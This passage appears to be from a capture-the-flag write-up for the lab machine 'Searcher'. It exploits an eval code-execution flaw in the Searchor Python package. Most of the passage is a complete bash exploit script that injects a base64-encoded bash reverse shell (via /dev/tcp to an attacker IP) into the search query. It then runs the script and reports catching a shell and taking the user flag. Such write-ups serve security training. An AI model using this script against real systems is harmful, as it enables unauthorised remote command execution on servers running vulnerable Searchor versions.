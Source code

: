 > *Affected versions of this package are vulnerable to Arbitrary Code Execution due to unsafe implementation of `eval` method.*

## Exploitation

I'll run the following exploit:

```bash
#!/bin/bash -

default_port="9001"
port="${3:-$default_port}"
rev_shell_b64=$(echo -ne "bash  -c 'bash -i >& /dev/tcp/$2/${port} 0>&1'" | base64)
evil_cmd="',__import__('os').system('echo ${rev_shell_b64}|base64 -d|bash -i')) # junky comment"
plus="+"

echo "---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---"

if [ -z "${evil_cmd##*$plus*}" ]
then
    evil_cmd=$(echo ${evil_cmd} | sed -r 's/[+]+/%2B/g')
fi

if [ $# -ne 0 ]
then
    echo "[*] Input target is $1"
    echo "[*] Input attacker is $2:${port}"
    echo "[*] Run the Reverse Shell... Press Ctrl+C after successful connection"
    curl -s -X POST $1/search -d "engine=Google&query=${evil_cmd}" 1> /dev/null
else 
    echo "[!] Please specify a IP address of target and IP address/Port of attacker for Reverse Shell, for example: 

./exploit.sh <TARGET> <ATTACKER> <PORT> [9001 by default]"
fi
```

```shell
./exploit.sh http://searcher.htb 10.10.14.36 666
```

> I've got a reverse shell :D

![](Pasted%20image%2020250518151119.png)

### User flag

I can now get the user flag:

![](Pasted%20image%2020250518151808.png)

## Pivoting
